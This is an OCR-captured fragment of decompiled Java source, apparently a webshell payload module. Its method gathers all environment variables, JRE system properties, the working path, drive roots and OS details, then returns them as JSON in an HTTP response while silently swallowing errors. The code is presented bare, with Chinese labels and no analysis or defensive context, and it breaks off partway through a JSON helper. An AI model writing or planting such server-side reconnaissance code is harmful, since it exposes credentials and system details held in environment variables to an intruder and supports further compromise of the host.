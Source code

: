 ```java
    public void e(Object req,Object resp) throws Exception{
        HttpServletResponse response = (HttpServletResponse) resp;
        String result = "";

        try {
            StringBuilder basicInfo = new StringBuilder("<br/><font size=2 color=red>环境变量:</font><br/>");
            Map<String, String> env = System.getenv();
            Iterator var5 = env.keySet().iterator();

            while(var5.hasNext()) {
                String name = (String)var5.next();
                basicInfo.append(name + "=" + (String)env.get(name) + "<br/>");
            }

            basicInfo.append("<br/><font size=2 color=red>JRE系统属性:</font><br/>");
            Properties props = System.getProperties();
            Set<Entry<Object, Object>> entrySet = props.entrySet();
            Iterator var7 = entrySet.iterator();

            while(var7.hasNext()) {
                Entry<Object, Object> entry = (Entry)var7.next();
                basicInfo.append(entry.getKey() + " = " + entry.getValue() + "<br/>");
            }

            String currentPath = (new File("")).getAbsolutePath();
            String driveList = "";
            File[] roots = File.listRoots();
            File[] var10 = roots;
            int var11 = roots.length;

            for(int var12 = 0; var12 < var11; ++var12) {
                File f = var10[var12];
                driveList = driveList + f.getPath() + ";";
            }

            String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
            Map<String, String> entity = new HashMap();
            entity.put("basicInfo", basicInfo.toString());
            entity.put("currentPath", currentPath);
            entity.put("driveList", driveList);
            entity.put("osInfo", osInfo);
            entity.put("arch", System.getProperty("os.arch"));
            result = this.buildJson(entity, false);
        } catch (Exception var26) {
        } finally {
                try {
                    response.getWriter().println(result);
                } catch (Exception var23) {
                }
        }
    }

    private String buildJson(Map<String, String> entity, boolean encode) throws Exception {
        StringBuilder sb = new StringBuilder();
        String version = System.getProperty("java.version");
        sb.append("{");
        Iterator var5 = entity.keySet().iterator();

        while(var5.hasNext()) {
            String key = (String)var5.next();
            sb.append("\"" + key + "\":\"");
```